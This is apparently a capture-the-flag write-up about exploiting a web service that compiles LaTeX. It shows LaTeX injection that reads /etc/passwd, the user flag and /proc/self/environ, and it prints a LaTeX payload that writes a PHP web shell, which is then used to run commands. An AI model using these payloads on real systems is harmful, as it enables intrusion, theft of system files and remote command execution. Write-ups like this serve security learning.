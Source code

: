 # LaxCTF

"Try Harder!"

This one was tough, but fun. I learnt a lot more than I would like about latex.

First, only 22 and 80 are open. 80 reveals a 'TexMaker' website, where you can enter LaTeX script and have it compiled into a PDF for you.

I immediately investigated: reading files into the output (LFI) and executing shell commands. The docs, by the way, for LaTeX are truly hideous - how has it survived and thrived for so long with such shit documentation?

Anyway, I found this blog: https://0day.work/hacking-with-latex/. It shows several techniques, and over the next six hours or so I experimented with them.

- First, shell execution is right out (as far as I can tell). The common commands `immediate`, `write18` or `input|` were all blocked. Even the `\def` trick the blog specifies at the end didn't result in any code execution.

- Second, I could use read to read anywhere. I read \etc\passwd but it failed, likely due to latex interpreting `_` as a command character and the system having at least one user like `_apt`. I could do partial extraction via not looping but just going line by line, however I eventually found a better technique: rather than using `\text` to emit the line to the generated PDF, if I used `\typeout` I could write to the compile log which is printed on the page.

- Third, writing anywhere didn't work. I could write files with no path, so local, but I didn't know where that directory was and so couldn't emit a shell or anything.

With no shell commands, I figured my best bet was going to be adding some PHP to the website somewhere. I knew it was PHP because `dirb` revealed a 200 code for `config.php` (it also revealed a few listable directories, like where the pdf's go).

Using my `typeout` technique, I was able to fully read `/etc/passwd` and found an entry for `/home/king`. Guessing the user flag would be user txt, I successfully read it using the same technique.

At this point, my chief focus was finding where the web directory was. I tried lots of things, even trying to guess various /`var/www/` paths, to no avail. Finally, via this blog https://highon.coffee/blog/lfi-cheat-sheet/, I read `/proc/self/environ`. It failed, but got enough of the content to reveal the OLDPWD of the current user was `/var/www/html/Latex`. Boom!

Reading `config.php` revealed the existence of a `/compile` path. I had tried writing files to `/pdf` and `/assets` but they hadn't worked. Writing text to `/var/www/html/Latest/compile/test.php` did work though, and I was able to browse to it! I prompytly used the following to create a simple PHP web shell:

```LaTeX
\newwrite\outfile
\openout\outfile=shell.php
\write\outfile{<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>}
\closeout\outfile

some random text
```

Going to `/compile/shell.php?cmd=whoami` got that magic `www-data`